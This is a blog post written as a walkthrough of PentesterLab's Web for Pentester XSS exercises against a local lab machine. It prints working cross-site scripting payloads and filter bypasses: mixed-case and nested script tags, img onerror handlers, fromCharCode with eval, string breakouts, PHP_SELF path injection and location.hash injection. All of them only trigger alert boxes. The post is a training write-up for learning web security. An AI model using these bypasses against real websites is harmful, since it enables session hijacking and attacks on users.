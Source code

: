 ```yaml
---
layout:     post
title:      "Web for Pentester"
subtitle:   "XSS Write-Up"
date:       2016-09-01 6:00:00
author:     "W3ndige"
header-img: "img/cross-site-scripting-header.jpg"
permalink: /:title/
category: Write-Ups
---
```


<p>Today we're going to continue our journey through the word of web application security - more accurately XSS exercises from <a href="https://pentesterlab.com/">PentesterLab</a>. It's great way to practice what we have learned so far and also - good challenge. Let's jump into the first one!</p>

<h3>Exercise 1</h3>

<p>Here we have a very basic example of Cross Site Scripting where you have to change the variable that is visible in the URL (which is our example is <i>name=hacker</i>) into the alert script that will allow us to see whether if it works. </p>

{% highlight html %}
http://192.168.0.12/xss/example1.php?name=<script>alert("Xss")</script>
{% endhighlight %}

![exercise-1](/img/xss-exercise/exercise-1.png){:class="img-responsive"}

<p>Great, it works perfectly, let's move to the next one!</p>

<h3>Exercise 2</h3>
<p>Firstly I wanted to try whether the method from the previous one works but as I suspected it didn't. What we got after entering script was this source code. </p>

{% highlight html %}
<div class="container">
Hello
alert("Xss")
{% endhighlight %}

<p>It may be somehow filtering our input - maybe changing it to uppercase will help us? </p>   

{% highlight html %}
http://192.168.0.12/xss/example2.php?name=<sCript>alert("Xss")</sCript>
{% endhighlight %}

<p>Great! It works and we've bypassed the filter. Let's move on to the next one! </p>

<h3>Exercise 3</h3>

<p>This one is a little harder - it doesn't allow <b>script</b> or even <b>sCript</b> so we have to try something else. From what I learned about methods to bypass filtering it may be possible to use this simple trick. </p>

{% highlight html %}
http://192.168.0.12/xss/example3.php?name=<scr<script>ipt>alert("Xss")</scr</script>ipt>
{% endhighlight %}

<p>If you don't know how this works - the filter firstly looks for <i>script</i> tag, deletes it, and then sends the result. But after taking out the script two other parts <b>scr</b> and <b>ipt</b> will merge into one creating our payload. </p>

<h3>Exercise 4</h3>

<p>Here it looks like more advanced version of filter, it completely takes out the word script and when the request matches script, it will stop. So what options do we have to bypass it? We can put <b>img</b> tag with some attributes allowing us to create a paylod. Onmouseover will be an excellent example but you can use any other you will think that will work. </p>

{% highlight html %}
http://192.168.0.12/xss/example4.php?name=<img src="blabla" onmouseover="alert('XSS')"></img>
{% endhighlight %}

<p>It will even better work with <b>onerror</b> since it will execute automatically when the page loads. </p>

{% highlight html %}
http://192.168.0.12/xss/example4.php?name=<img src="blabla" onerror="alert('XSS')"></img>
{% endhighlight %}

<h3>Exercise 5</h3>

<p>This one is a little trickier - it allows <b>script</b> tags but doesn't allow <b>alert</b> function. How can we make it alert something without actually typing it? We can translate this into the ASCII characters. </p>

{% highlight html %}
alert("XSS") = 097 108 101 114 116 040 034 088 083 083 034 041
{% endhighlight %}

<p>Which after small redesign will result in actually working XSS!</p>

{% highlight html %}
http://192.168.0.12/xss/example5.php?name=<script>eval(String.fromCharCode(97,108,101,114,116,40,34,88,83,83,34,41))</script>
{% endhighlight %}

<h3>Exercise 6</h3>

<p>This one is a little different. After looking into the source code (which you should always do at the beginning) we get this small JavaScript code. </p>

{% highlight html %}
Hello
<script>
	var $a= "hacker";
</script>
{% endhighlight %}

<p>Vaule of $a changes everytime we enter something different in <b>name=</b> field. We can try to manipulate this script into running alert function. Firstly I add <b>"</b> character to indicate that text is before this quotiation mark. Then let's add <b>;</b> as it's always used in JavaScript at the end of a line. After that I'm ready to add <b>alert('XSS')</b> but it still won't work because of the quotiation mark at the end of the input so let's try commenting it out with <b>//</b>. And it works!</p>

{% highlight html %}
http://192.168.0.12/xss/example6.php?name=me";alert('XSS')//
{% endhighlight %}

<h3>Exercise 7</h3>

<p>Here w're dealing with similar challenge as in the previous one. </p>
{% highlight html %}
Hello
<script>
	var $a= 'hacker';
</script>
{% endhighlight %}

<p>Using the previous strategy I manage to get the XSS alert working. </p>
{% highlight html %}
http://192.168.0.12/xss/example7.php?name=hacker';alert('XSS');//
{% endhighlight %}

<h3>Exercise 8</h3>
<p>Hmmm... We've got the input field that will not allow any of our XSS tricks. I actually had no idea how to attack this example so I checked out hints provided by PentesterLab. Let's take a look at them. </p>

<p><i>Here, the value echoed back in the page is correctly encoded. However, there is still a XSS vulnerability in this page. To build the form, the developer used and trusted PHP_SELF which is the path provided by the user. It’s possible to manipulate the path of the application in order to:</i></p>
<ol>
<li><i>call the current page (however you will get an HTTP 404 page);</i></li>
<li><i>get a XSS payload in the page.</i></li>
</ol>
<p><i>This can be done because the current configuration of the server will call /xss/example8.php when any URL matching /xss/example8.php/... is accessed. You can simply get your payload inside the page by accessing /xss/example8.php/[XSS_PAYLOAD]. Now that you know where to inject your payload, you will need to adapt it to get it to work and get the famous alert box.</i></p>

<p>Wow, I haven't thought about that. Let's see what happens if we simply add it <b>/xss/example8.php/[XSS_PAYLOAD]</b> like in here. </p>

{% highlight html %}
http://192.168.0.12/xss/example8.php/<script>alert("XSS")</script>
{% endhighlight %}

<p>But it still doesn't work. We have to somehow tweak it into the working version. </p>

{% highlight html %}
<form action="/xss/example8.php/<script>alert("XSS")</script>" method="POST">
  Your name:<input type="text" name="name" />
  <input type="submit" name="submit"/>
{% endhighlight %}

<p>If we take a look at it a little closer we can see that if we add <b>"></b> after the example8.php it will close the path and allow script to execute. </p>

{% highlight html %}
http://192.168.0.12/xss/example8.php/"><script>alert("XSS")</script>
{% endhighlight %}

<p>To the last one!</p>

<h3>Exercise 9</h3>
<p>By looking at the source code it reveals to us that the script is simply executing everything after the hash string.</p>
{% highlight html %}
<script>
    document.write(location.hash.substring(1));
</script>
{% endhighlight %}
<p>Solution will look like this. I don't know why but it worked for me only in Chrome browser, not in Firefox. Luckily we managed to complete this set of exercises. </p>
{% highlight html %}
http://192.168.0.12/xss/example9.php#<script>alert("XSs")</script>
{% endhighlight %}

<p>Thanks for tuning in! It was great challenge, and I'm sure to complete other exercise on Web for Pentester ISO. Hopefully there will be more XSS challenges as I'm really enjoying them. Stay updated for more and remember... </p>
<p>~ Stay safe!</p>
